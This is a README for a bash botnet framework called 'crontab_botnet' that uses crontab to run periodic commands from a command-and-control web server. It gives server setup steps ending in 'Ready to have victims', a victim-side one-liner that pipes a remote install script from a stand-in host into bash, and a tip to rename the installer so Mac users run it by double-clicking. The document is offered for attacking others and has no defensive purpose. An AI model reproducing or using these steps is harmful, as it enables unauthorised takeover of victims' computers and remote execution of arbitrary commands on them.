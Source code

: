 # crontab_botnet
A botnet (C&amp;C) framework that create in bash and using crontab for periodic execute

## Server Side Setup (Plain Text Version)
1. Put the folder under any kind of web server, which can be, but not limited to:
```
IIS
Nginx
Apache
Python Simple HTTP Server
```
2. Change the domain and path in `install.sh` and `bd.sh`.
3. follow the instrustion for writing a command file
4. Ready to have victims

## Server Side Setup (With PHP uploader)
1. Setup a LAMP server.
2. Put the file to a folder which can be accessed on the network.
3. Change the domain and path in `install.sh` and `bd.sh`.
4. follow the instrustion for writing a command file
5. Ready to have victims

## Victim Setup
- `curl http://example.com/install.sh | bash`
- You can also rename the file install.sh to install.command, and double-click the file on OS X system to execute it.

## Command File
The name of command file is `command_list`, there is a simple command list call `command_list_example`.
You can change the domain and path in the example file, and feel free to use it.
